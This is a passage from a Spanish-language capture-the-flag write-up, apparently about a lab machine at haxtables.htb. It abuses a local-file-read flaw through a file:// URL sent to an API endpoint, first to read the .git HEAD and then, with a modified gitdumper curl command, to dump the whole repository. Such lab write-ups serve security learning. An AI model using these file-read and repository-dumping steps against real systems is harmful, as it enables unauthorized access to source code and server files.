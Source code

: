 ```php
    return $url_content;

}

function git_status()
{
    $status = shell_exec('cd /var/www/image && /usr/bin/git status');
    return $status;
}

function git_log($file)
{
    $log = shell_exec('cd /var/www/image && /ust/bin/git log --oneline "' . addslashes($file) . '"');
    return $log;
}

function git_commit()
{
    $commit = shell_exec('sudo -u svc /var/www/image/scripts/git-commit.sh');
    return $commit;
}
?>
```

Vemos que hay funciones que utilizan `git` en el directorio actual, por lo que si buscamos el `HEAD`, lo encontramos.

```bash
python3 lfi.py /var/www/image/.git/HEAD 
ref: refs/heads/master
```

Con esto confirmamos la existencia de un repositorio en este directorio.

Con la herramienta [GitDumper](https://github.com/internetwache/GitTools/blob/master/Dumper/gitdumper.sh), vamos a descargar la carpeta `.git`
Tuve que modificar la parte en la que hacía la petición para ajustarla a nuestro escenario.
Reemplacé la parte del `curl` por esto

```bash
local payload='{"action":"b64encode","file_url":"file://'$url'"}'
curl -s -X POST --data $payload http://api.haxtables.htb/v3/tools/string/index.php -H "Content-Type: application/json" | jq -r '.data' | base64 -d > $target
```

Después de ejecutarlo con `./gitdumper.sh /var/www/image/.git/ ../content/.git`, obtenemos esto:

```bash
ls -la
drwxr-xr-x tnr1112 tnr1112 140 B Sat Apr  1 22:44:17 2023 .
drwxr-xr-x tnr1112 tnr1112  24 B Sun Apr  2 11:35:57 2023 ..
drwxr-xr-x tnr1112 tnr1112  22 B Sat Apr  1 22:44:20 2023 info
drwxr-xr-x tnr1112 tnr1112  16 B Sat Apr  1 22:44:18 2023 logs
drwxr-xr-x tnr1112 tnr1112  84 B Sat Apr  1 22:44:28 2023 objects
drwxr-xr-x tnr1112 tnr1112  40 B Sat Apr  1 22:44:18 2023 refs
.rw-r--r-- tnr1112 tnr1112  17 B Sat Apr  1 22:44:16 2023 COMMIT_EDITMSG
.rw-r--r-- tnr1112 tnr1112  92 B Sat Apr  1 22:44:16 2023 config
.rw-r--r-- tnr1112 tnr1112  73 B Sat Apr  1 22:44:15 2023 description
.rw-r--r-- tnr1112 tnr1112  23 B Sat Apr  1 22:44:15 2023 HEAD
.rw-r--r-- tnr1112 tnr1112 821 B Sat Apr  1 22:44:17 2023 index
.rw-r--r-- tnr1112 tnr1112   0 B Sat Apr  1 22:44:17 2023 packed-refs
```
